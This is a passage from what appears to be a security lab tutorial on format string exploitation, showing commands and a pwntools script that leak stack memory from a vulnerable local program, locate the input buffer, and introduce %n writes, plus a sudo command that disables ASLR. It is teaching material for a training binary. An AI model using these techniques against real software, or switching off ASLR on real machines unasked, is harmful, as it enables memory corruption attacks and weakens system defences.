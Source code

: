 ``` {.code .bash}
$ ./format "%08x %08x %08x %08x %1\$08x %2\$08x %3\$08x %4\$08x"
00000000 f760d4d3 00000002 ff9aca24 00000000 f760d4d3 00000002 ff9aca24
This is the most useless and insecure program!
```

Note the equivalence between formats.

Now, because we are able to select *any* higher address with this
function and because the buffer is on the stack, sooner or later we will
discover our own buffer.

``` {.code .bash}
$ ./format "$(python -c 'print("%08x\n" * 10000)')" 
```

Depending on your setup you should be able to view the hex
representation of the string "%08x\\n".

**Why do we need our own buffer?** Remember the `%n` format? It can be
used to write at an address given as parameter. The idea is to give this
address as parameter and achieve memory writing. We will see later how
to control the value.

The next steps are done with ASLR disabled. In order to disable ASLR,
please run

``` {.code .bash}
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

By trial and error or by using GDB (breakpoint on `printf`) we can
determine where the buffer starts

``` {.code .bash}
$ ./format "$(python -c 'import sys; sys.stdout.buffer.write(b"ABCD" + b"%08x\n   " * 0x300)')"  | grep -n 41 | head
10:   ffffc410
52:   ffffcc41
72:   ffffcf41
175:   44434241
```

::: {.noteclassic}
Command line Python exploits tend to get very tedious and hard to read
when the payload gets more complex. You can use the following reference
pwntools script to write your exploit. The code is equivalent to the
above one-liner.

``` {.code .python}
#!/usr/bin/env python3
 
from pwn import *
 
stack_items = 200
 
pad = b"ABCD"
val_fmt = b"%08x\n   "
# add a \n at the end for consistency with the command line run
fmt = pad + val_fmt * stack_items + b"\n"
 
io = process(["./format", fmt])
 
io.interactive()
```
